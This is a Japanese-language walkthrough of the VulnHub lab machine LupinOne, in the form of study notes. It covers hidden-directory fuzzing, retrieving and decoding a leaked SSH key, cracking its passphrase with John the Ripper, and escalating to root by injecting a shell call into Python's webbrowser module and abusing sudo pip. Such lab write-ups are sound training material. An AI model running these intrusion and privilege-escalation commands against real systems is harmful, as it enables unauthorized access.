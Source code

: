 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
- 見つかったファイルは`secret` `myfiles`
- (別解)
- `gobuster fuzz -u http://$IP/~FUZZ -w /usr/share/wordlists/dirb/common.txt -b 404`
  - `secret` 異なる辞書を使っている 

### サイトを見る
- 見つけたリンクでサイトを確認する。使われているであろう、ユーザ名がわかる

### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 
- (別解)
- `gobuster fuzz -u http://$IP/~secret/.FUZZ -w /usr/share/wordlists/rockyou.txt -b 404`
### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- コピーする
- CyberChefでペーストして、searchにbase58と入力する。Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
- Permissionを変更する
  - `chmod 700 key`
  - なぜか`chmod 777 key`にするとsshが繋がらない

### パスフレーズの解析
- sshのパスフレーズを解析するのにssh2johnを使うが、Evilboxの時と同じように改良する
- `github johntheripper bleeding-jumbo ssh2john py`で検索したコードをコピーする
- `cat > ssh2john_v2.py` ペーストする。注意点は改行してから`ctrl + c`で抜けること
- `chmod +x ssh2john_v2.py`
- john the ripperで使えるようにフォーマットを変換する
  -  `python3 ssh2john_v2.py key > passphrase.txt`
- 暗号解析
  - `john passphrase.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
- パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- arseneは　パスワードなしで/home/arsene/heist.pyファイルが実行できることがわかる
- heist.pyの中身を見る、これが何をしているか？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る
  - `cd /tmp`
  - `TF = $(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
  - `ls $TF`
  - `sudo pip install $TF`
### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`


